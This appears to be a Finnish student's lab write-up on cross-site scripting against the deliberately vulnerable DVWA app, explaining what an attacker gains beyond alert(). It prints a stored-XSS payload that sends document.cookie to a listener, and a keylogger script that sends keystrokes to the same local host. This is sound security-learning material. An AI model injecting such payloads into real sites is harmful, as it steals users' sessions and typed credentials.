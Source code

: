 ## e) Selitä esimerkin avulla, mitä hyökkääjä hyötyy XSS-hyökkäyksestä. Alert("Hei Tero!") ei vielä tarjoa kummoista pääsyä. (Tässä alakohdassa ei tarvitse tehdä testejä tietokoneella, pelkkä lyhyt ja selkeä selitys riittää.)

Tässä tehtävässä rupesinkin miettimään että paljon olen nyt pyöritellyt tätä `alert()` funktiota, mutta miten tätä hyökkäystä oikeasti voi hyödyntää. Niin mitä olin lukenut aikaisemmista lähteistä niin mahdolliset hyökkäyspolut olisivat esimerkiksi keksien varastaminen, CSRF tokenin väärentäminen tai vaikka suoraan tietojen väärentäminen.

Mua kiinnosti tämä kohta aika paljon niin lähdin kokeilemaan keksien varastus menetelmää. Tässä käytin apua ChatGPT:tä ja kysyin siltä, esimerkkiä ja miten mä sitä voisin testata. Niin päädyin lataamaan semmosen palvelun kun `DVWA`. Se on tarkoitettu hyökättäväksi ja siellä voi testata erillaisia hyökkäys payloadeja, miten ne käyttäytyy eri turvallisuus tilanteiden alla.

No kun sain tämän käyntiin lähdin kokeilemaan. Ensiksi mä tein kuuntelevan palvelimen porttiin 8000 minkä mä avasin hyökkäys koneelle. Sitten käytin komentoa `&lt;script>fetch("http://127.0.0.1:8000/?" + document.cookie)&lt;/script>` minkä tallensin sivulle ja sieltähän se antoikin sitten mulle sessio keksit.

Testasin tätä vielä toisella selaimella, missä oli eri sessio keksi ja sieltä sain myös omalle hyökkäsy koneelle palautuksen. Mielenkiintoista oli että tämä hyökkäys toimi vielä `DVWA security level: high` alla myös.

![alt text](assets/TT25/TT25-003/image9.png)

Sitten koska innostuin ja mulla pyöri jo tämä palvelu pyysin ChatGPT:tä antamaan mulle keylogger koodin mikä voisi napata kaikken tekstin mitä käyttäjä kirjoittaa. Vastauksena sain tämmöisen koodin pätkän:```html
&lt;script>
document.addEventListener("keypress", function(e) {
    if (e.target.tagName === "INPUT" || e.target.tagName === "TEXTAREA") {
        new Image().src = "http://127.0.0.1:8000/?k=" + encodeURIComponent(e.key);
    }
});
&lt;/script>```

ja no sehän toimi hyvin.

![alt text](assets/TT25/TT25-003/image10.png)
